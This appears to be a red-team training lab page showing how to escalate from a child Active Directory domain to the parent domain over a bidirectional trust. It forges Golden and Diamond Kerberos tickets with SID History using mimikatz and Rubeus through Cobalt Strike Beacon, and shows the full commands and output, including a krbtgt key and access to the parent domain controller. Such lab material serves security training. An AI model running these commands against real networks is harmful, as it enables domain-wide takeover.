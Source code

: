 # Bidirectional

When a child domain is added to a forest, it automatically creates a transitive, two-way trust with its parent. This be found in the lab where **dev.cyberbotic.io** is a child domain of **cyberbotic.io**.

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> powershell Get-DomainTrust

SourceName      : dev.cyberbotic.io
TargetName      : cyberbotic.io
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST
TrustDirection  : Bidirectional
WhenCreated     : 2/19/2021 1:28:00 PM
WhenChanged     : 2/19/2021 1:28:00 PM
```

**SourceName** is the current domain, **TargetName** is the foreign domain, **TrustDirection** is the trust direction (bidirectional is two-way), and **TrustAttributes: WITHIN\_FOREST** let's us know that both of these domains are part of the same forest which implies a parent/child relationship.

If we have Domain Admin privileges in the child, we can also gain Domain Admin privileges in the parent using a TGT with a special attribute called SID History. SID History was designed to support migration scenarios, where a user would be moved from one domain to another. To preserve access to resources in the "old" domain, the user's previous SID would be added to the SID History of their new account. So when creating such a ticket, the SID of a privileged group (EAs, DAs, etc) in the parent domain can be added that will grant access to all resources in the parent.

This can be achieved using either a Golden or Diamond Ticket.

#### Golden Ticket

The process is the same as creating Golden Tickets previously, the only additional information required is the SID of a target group in the parent domain.

```
beacon> powershell Get-DomainGroup -Identity "Domain Admins" -Domain cyberbotic.io -Properties ObjectSid

objectsid                                   
---------                                   
S-1-5-21-378720957-2217973887-3501892633-512

beacon> powershell Get-DomainController -Domain cyberbotic.io | select Name

Name              
----              
dc-1.cyberbotic.io
```

Create the golden ticket:

```
mimikatz # kerberos::golden /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-3263068140-2042698922-2891547269 /sids:S-1-5-21-378720957-2217973887-3501892633-512 /aes256:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /startoffset:-10 /endin:600 /renewmax:10080 /ticket:cyberbotic.kirbi
User      : Administrator
Domain    : dev.cyberbotic.io (DEV)
SID       : S-1-5-21-3263068140-2042698922-2891547269
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-378720957-2217973887-3501892633-512 ;
ServiceKey: 390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa - aes256_hmac
Lifetime  : 3/11/2021 2:49:33 PM ; 3/12/2021 12:49:33 AM ; 3/18/2021 2:49:33 PM
-> Ticket : cyberbotic.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

Where:

* `/user` is the username to impersonate.
* `/domain` is the current domain.
* `/sid` is the current domain SID.
* `/sids` is the SID of the target group to add ourselves to.
* `/aes256` is the AES256 key of the current domain's krbtgt account.
* `/startoffset` sets the start time of the ticket to 10 mins before the current time.
* `/endin` sets the expiry date for the ticket to 60 mins.
* `/renewmax` sets how long the ticket can be valid for if renewed.

```
beacon> make_token CYBER\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\cyberbotic.kirbi
beacon> ls \\dc-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 09:22:26   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/06/2021 10:12:58   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     05/17/2021 22:52:56   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     03/25/2021 10:10:50   Shares
          dir     02/19/2021 10:18:17   System Volume Information
          dir     05/15/2021 16:48:31   Users
          dir     05/17/2021 23:15:24   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 448mb    fil     05/25/2021 08:39:37   pagefile.sys
 
 beacon> rev2self
```

#### Diamond Ticket

The Rubeus `diamond` command also has a `/sids` parameter, with which we can supply the extra SIDs we want in our ticket.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:512 /sids:S-1-5-21-378720957-2217973887-3501892633-512 /krbkey:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /nowrap

[...snip...]

beacon> make_token CYBER\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\diamond.kirbi

beacon> ls \\dc-1\c$
[*] Listing: \\dc-1\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 09:22:26   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings

[...snip...]
```

If dev.cyberbotic.io also had a child (e.g. test.dev.cyberbotic.io), then a DA in TEST would be able to use their krbtgt to hop to DA/EA in cyberbotic.io instantly because the trusts are transitive.

There are also other means which do not require DA in the child, some of which we've already seen. You can also kerberoast and ASREProast across domain trusts, which may lead to privileged credential disclosure. Because principals in CYBER can be granted access to resources in DEV, you may find instances where they are accessing machines we have compromised. If they interact with a machine with unconstrained delegation, we can capture their TGTs. If they're on a machine interactively, e.g. over RDP, we can impersonate them just like any other user.
